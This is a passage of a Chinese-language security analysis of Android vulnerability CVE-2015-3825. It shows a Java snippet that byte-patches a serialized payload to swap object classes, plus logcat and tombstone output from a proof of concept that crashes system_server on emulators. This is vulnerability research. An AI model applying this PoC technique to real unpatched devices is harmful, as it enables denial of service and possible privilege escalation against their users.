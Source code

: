 ```
int l = data.length;
for (int i=0; i<l-4; i++) {
if (data[i] == 'A' && data[i+1] == 'p' && data[i+2] == 'e' && data[i+3] == 'n') {
data[i] = 'O';
break;
    }
}

```

类似CVE-2014-7911的分析，我们也对service.jar加一些日志信息输出，在Android 4.4.2的AVD中，安装、运行PoC，我们看到：

```
E/CVE-2014-7911-trace(1669): setApplicationRestrictions
E/CVE-2014-7911-trace(1669): writeApplicationRestrictionsLocked
E/CVE-2014-7911-trace(1669): writeApplicationRestrictionsLocked::for::eatthis
E/CVE-2014-7911-trace(1669): writeApplicationRestrictionsLocked::for::else
E/CVE-2014-7911-trace(1669): writeApplicationRestrictionsLocked::Exception
E/CVE-2014-7911-trace(1669): writeApplicationRestrictionsLocked::Exception::java.lang.ClassCastException: com.android.org.conscrypt.OpenSSLX509Certificate cannot be cast to java.lang.String[]
W/System.err(1669): java.lang.ClassCastException: com.android.org.conscrypt.OpenSSLX509Certificate cannot be cast to java.lang.String[]
at com.android.server.pm.UserManagerService.writeApplicationRestrictionsLocked(UserManagerService.java:1417)
at com.android.server.pm.UserManagerService.setApplicationRestrictions(UserManagerService.java:1124)
at android.os.IUserManager$Stub.onTransact(IUserManager.java:245)
W/System.err(1669):     at android.os.Binder.execTransact(Binder.java:404)
W/System.err(1669):     at dalvik.system.NativeStart.run(Native Method)
E/UserManagerService(1669): Error writing application restrictions list

```

也是强制类型转换导致异常，与CVE-2014-7911的强制转换为java.io.Serializable导致的异常不同，因为传入的object本身不是序列化的对象，致使类型转换失败。CVE-2015-3825是将`com.android.org.conscrypt.OpenSSLX509Certificate`强制转换为`java.lang.String[]`而产生的异常。

验证PoC过程中，在Android 4.4.2 AVD，只触发了“Error writing application restrictions list”异常，但是GC资源回收没被触发。

在Android 5.1.1 AVD，可以通过重复发送n次的“TRANSACTION_setApplicationRestrictions”请求可以触发GC回收资源，最后导致system_server的crash:

```
A/libc(4839): Fatal signal 11 (SIGSEGV), code 1, fault addr 0x7f7f7f8f in tid 4848 (FinalizerDaemon)
I/DEBUG(61): *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
I/DEBUG(61): Build fingerprint: 'generic/sdk_phone_armv7/generic:5.1/LKY45/1737576:eng/test-keys'
I/DEBUG(61): Revision: '0'
I/DEBUG(61): ABI: 'arm'
I/DEBUG(61): pid: 4839, tid: 4848, name: FinalizerDaemon  >>> system_server <<<
I/DEBUG(61): signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 0x7f7f7f8f
I/DEBUG(61):     r0 00000000  r1 0000000c  r2 00000000  r3 00000000
I/DEBUG(61):     r4 b6c9766f  r5 00000003  r6 ffffffff  r7 7f7f7f8f
I/DEBUG(61):     r8 00000075  r9 b6c24ac9  sl a78fbaa4  fp 13068980
I/DEBUG(61):     ip 00000001  sp a78fba58  lr b6c3da1d  pc b6c3da1c  cpsr 60000030
I/DEBUG(61): backtrace:
I/DEBUG(61):     #00 pc 00072a1c  /system/lib/libcrypto.so (CRYPTO_add_lock+59)
I/DEBUG(61):     #01 pc 000579b1  /system/lib/libcrypto.so (asn1_do_lock+68)
I/DEBUG(61):     #02 pc 0005646f  /system/lib/libcrypto.so
09-06 20:31:31.394: I/DEBUG(61):     #03 pc 00056415  /system/lib/libcrypto.so (ASN1_item_free+12)
09-06 20:31:31.395: I/DEBUG(61):     #04 pc 00017c0d  /data/dalvik-cache/arm/system@framework@boot.oat
09-06 20:32:09.116: I/art(5663): Background sticky concurrent mark sweep GC freed 7340(386KB) AllocSpace objects, 0(0B) LOS objects, 45% free, 603KB/1117KB, paused 887us total 513.880ms
09-06 20:32:22.682: I/DEBUG(61): Tombstone written to: /data/tombstones/tombstone_01

```
